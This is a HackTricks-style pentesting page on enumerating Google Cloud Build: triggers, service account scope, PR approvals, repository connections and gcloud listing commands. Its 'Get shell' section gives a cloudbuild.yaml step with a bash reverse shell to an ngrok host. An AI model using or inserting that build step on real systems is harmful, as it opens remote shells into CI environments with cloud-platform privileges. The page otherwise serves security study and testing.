 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Google Cloud Build is a managed CI/CD platform that **automates software build** and release processes, integrating with **source code repositories** and supporting a wide range of programming languages. It **allows developers to build, test, and deploy code automatically** while providing flexibility to customize build steps and workflows.

Each Cloud Build Trigger is **related to a Cloud Repository or directly connected with an external repository** (Github, Bitbucket and Gitlab).

> [!TIP]
> I couldn't see any way to steal the Github/Bitbucket token from here or from Cloud Repositories because when the repo is downloaded it's accessed via a [https://source.cloud.google.com/](https://source.cloud.google.com/) URL and Github is not accessed by the client.

### Events

The Cloud Build can be triggered if:

- **Push to a branch**: Specify the branch
- **Push a new tag**: Specify the tag
- P**ull request**: Specify the branch that receives the PR
- **Manual Invocation**
- **Pub/Sub message:** Specify the topic
- **Webhook event**: Will expose a HTTPS URL and the request must be authenticated with a secret

### Execution

There are 3 options:

- A yaml/json **specifying the commands** to execute. Usually: `/cloudbuild.yaml`
  - Only one that can be specified “inline” in the web console and in the cli
  - Most common option
  - Relevant for unauthenticated access
- A **Dockerfile** to build
- A **Buildpack** to build

### SA Permissions

The **Service Account has the `cloud-platform` scope**, so it can **use all the privileges.** If **no SA is specified** (like when doing submit) the **default SA** `<proj-number>@cloudbuild.gserviceaccount.com` will be **used.**

By default no permissions are given but it's fairly easy to give it some:

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### Approvals

It's possible to config a Cloud Build to **require approvals for build executions** (disabled by default).

### PR Approvals

When the trigger is PR because **anyone can perform PRs to public repositories** it would be very dangerous to just **allow the execution of the trigger with any PR**. Therefore, by default, the execution will only be **automatic for owners and collaborators**, and in order to execute the trigger with other users PRs an owner or collaborator must comment `/gcbrun`.

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Connections & Repositories

Connections can be created over:

- **GitHub:** It will show an OAuth prompt asking for permissions to **get a Github token** that will be stored inside the **Secret Manager.**
- **GitHub Enterprise:** It will ask to install a **GithubApp**. An **authentication token** from your GitHub Enterprise host will be created and stored in this project as a S**ecret Manager** secret.
- **GitLab / Enterprise:** You need to **provide the API access token and the Read API access toke**n which will stored in the **Secret Manager.**

Once a connection is generated, you can use it to **link repositories that the Github account has access** to.

This option is available through the button:

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> Note that repositories connected with this method are **only available in Triggers using 2nd generation.**

### Connect a Repository

This is not the same as a **`connection`**. This allows **different** ways to get **access to a Github or Bitbucket** repository but **doesn't generate a connection object, but it does generate a repository object (of 1st generation).**

This option is available through the button:

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### Storage

Sometimes Cloud Build will **generate a new storage to store the files for the trigger**. This happens for example in the example that GCP offers with:

```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
  cd cloud-console-sample-build && \
  gcloud builds submit --config cloudbuild.yaml --region=global
```

A Storage bucket called [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox) is created to store a `.tgz` with the files to be used.

### Get shell

```yaml
steps:
  - name: bash
    script: |
      #!/usr/bin/env bash
      bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
  logging: CLOUD_LOGGING_ONLY
```

Install gcloud inside cloud build:

```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```

### Enumeration

You could find **sensitive info in build configs and logs**.

```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build connections in region: $region"
    connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
    if [[ ${#connections[@]} -eq 0 ]]; then
        echo "No connections found in region $region."
    else
        for connection in $connections; do
            echo "Describing connection $connection in region $region"
            gcloud builds connections describe "$connection" --region="$region"
            echo "-----------------------------------------"
        done
    fi
    echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
    echo "Listing build worker-pools in region: $region"
    gcloud builds worker-pools list --region="$region"
    echo "-----------------------------------------"
done
```

### Privilege Escalation

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### Unauthenticated Access

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### Post Exploitation

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}

